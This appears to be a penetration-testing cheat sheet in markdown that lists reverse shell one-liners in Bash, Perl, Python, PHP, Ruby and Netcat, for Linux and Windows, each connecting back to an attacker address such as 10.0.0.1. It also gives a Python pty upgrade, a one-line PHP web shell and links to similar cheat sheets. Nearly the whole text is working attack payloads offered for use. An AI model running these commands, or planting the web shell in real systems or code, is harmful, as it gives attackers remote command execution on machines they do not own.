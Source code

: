 # Reverse Shells

**Description:** This entry describes how to use various programming languages to create a reverse shell

**Requirements:** varies based on shell

## Commands to create reverse shell connections

## Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Python Psuedo terminal

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Use this on raw shells

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


```
<?php system($_GET['cmd']); ?>
```

Simple php webshell


## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```

Reverse shell Linux

```
nc 10.10.0.1 1234 -e cmd.exe
```

Reverse shell Windows

## References:

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys
* [Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing
* [Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec
* [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) - Ropnop